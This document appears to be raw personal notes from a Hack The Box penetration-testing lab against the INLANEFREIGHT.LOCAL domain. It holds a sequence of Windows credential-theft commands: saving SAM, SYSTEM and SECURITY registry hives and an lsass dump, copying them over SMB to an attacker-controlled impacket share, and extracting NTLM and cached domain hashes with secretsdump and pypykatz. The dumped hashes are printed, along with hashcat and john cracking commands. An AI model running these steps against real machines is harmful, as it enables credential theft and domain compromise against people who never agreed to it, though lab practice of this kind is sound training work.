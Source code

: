 net use n: \\10.10.14.102\share /user:test test
The command completed successfully.

copy c:\Partage2\lsass.DMP n:\

pypykatz lsa minidump lsass.dmp

--> FAILED because of lsass.dmp and not lsass.DMP


reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save

New-Item -ItemType Directory -Path "C:\Partage2"
New-SmbShare -Name Partage2$ -Path 'C:\Partage2\' -FullAccess 'svc_sql'

copy C:\security.save \\172.16.6.100\Partage2$\
copy C:\system.save \\172.16.6.100\Partage2$\
copy C:\sam.save \\172.16.6.100\Partage2$\

ls c:\Partage2
Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        12/8/2023   2:24 PM          53248 sam.save                                                              
-a----        12/8/2023   2:24 PM          36864 security.save                                                         
-a----        12/8/2023   2:24 PM       15749120 system.save

sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support share /home/htb-ac-786011/ -user test -password test

net use n: \\10.10.14.102\share /user:test test

copy c:\Partage2\security.save n:\
copy c:\Partage2\system.save n:\
copy c:\Partage2\sam.save n:\

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:4b4ba140ac0767077aee1958e7f78070:::
INLANEFREIGHT.LOCAL/tpetty:$DCC2$10240#tpetty#685decd67a67f5b6e45a182ed076d801
INLANEFREIGHT.LOCAL/svc_sql:$DCC2$10240#svc_sql#acc5441d637ce6aabf3a3d9d4f8137fb
INLANEFREIGHT.LOCAL/Administrator:$DCC2$10240#Administrator#9553faad97c2767127df83980f3ac245


sudo hashcat -m 1000 685decd67a67f5b6e45a182ed076d801 /usr/share/wordlists/rockyou.txt
sudo hashcat -m 0 685decd67a67f5b6e45a182ed076d801 /usr/share/wordlists/rockyou.txt
sudo hashcat -m 900 685decd67a67f5b6e45a182ed076d801 /usr/share/wordlists/rockyou.txt

sudo hashcat -m 1000 hashes.txt.ntds /usr/share/wordlists/rockyou.txt

sudo hashcat -m 1000 9553faad97c2767127df83980f3ac245 /usr/share/wordlists/rockyou.txt

john --format=Raw-MD5 --wordlist /usr/share/wordlists/rockyou.txt tpetty_hash.txt
!@#$%..sss
